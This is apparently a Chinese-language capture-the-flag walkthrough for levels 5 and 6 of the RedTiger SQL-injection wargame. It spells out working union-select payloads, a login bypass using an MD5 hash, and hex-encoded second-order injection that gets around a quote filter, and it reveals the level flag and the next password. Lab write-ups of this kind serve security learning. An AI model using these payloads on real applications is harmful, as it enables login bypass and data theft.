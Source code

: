 很好，然后熟练得测试出回显字段，得到2个回显字段。`' union select 1,2#`。这时显示的错误为 
> Login failed!
说明我们绕过了 `username` ，接下来对 `	password` 进行测试。

题目说 `password` 经过了 md5 加密，而且还过滤了 `(` 与 `)` 两个字符。 因此将 `password` 值为1，并对字符串'1' 进行md5加密，MD5('1')='c4ca4238a0b923820dcc509a6f75849b'。
测试到底是 select 的1位置用md5加密还是2位置用md5加密。
```
username= ' union select 1,'c4ca4238a0b923820dcc509a6f75849b'#
password=1
```
可以得到结果
> You can raise your wechall.net score with this flag: ca5c3c4f0bc85af1392aef35fc1d09b3
> The password for the next level is: for_more_bugs_update_to_php7




## level 6

```
curl 'http://redtiger.labs.overthewire.org/level6.php?user=1' -H 'Cookie:  level6login=for_more_bugs_update_to_php7'
```

可以用常规注入对url参数 `user=1`进行注入测试。但是测试回显字段时，未回显。
```
http://redtiger.labs.overthewire.org/level6.php?user=0 union select 1,2,3,4,5%23
```
报错
	
	User not found
	Login failed! 

而得到user的username为 `deddlef` 。
```
http://redtiger.labs.overthewire.org/level6.php?user=0 union select 1,2,3,4,5%23
```
	
	Username: 	deddlef
	Email: 	dumbi@damibi.de

可以用 `'deddlef'` 替换 `union select 1,2,3,4,5%23` 中的各个回显位置。还是报错。服务器应该过滤了 `'`。
用16进制 `0x646564646c6566` 继续替换查找，当替换 `2` 时，得到正确的回显结果。
那么可以怀疑后台先根据 `id` 查找 `username`，再根据 `username` 再次去查找 user信息的，我们可以利用 第二个回显位置进行进一步注入测试，但是要用16进制表示。
**二次注入**

```
# 测试回显数量，仍然是5个位置。
# ' order by 5# => 0x27206f72646572206279203523
http://redtiger.labs.overthewire.org/level6.php?user=0 union select 1,0x27206f72646572206279203523,3,4,5%23
# ' order by 6# => 0x27206f72646572206279203623
http://redtiger.labs.overthewire.org/level6.php?user=0 union select 1,0x27206f72646572206279203623,3,4,5%23
```
测试回显位：
```
# ' union select 1,2,3,4,5# => 0x2720756e696f6e2073656c65637420312c322c332c342c3523
http://redtiger.labs.overthewire.org/level6.php?user=0 union select 1,0x2720756e696f6e2073656c65637420312c322c332c342c3523,3,4,5%23
```
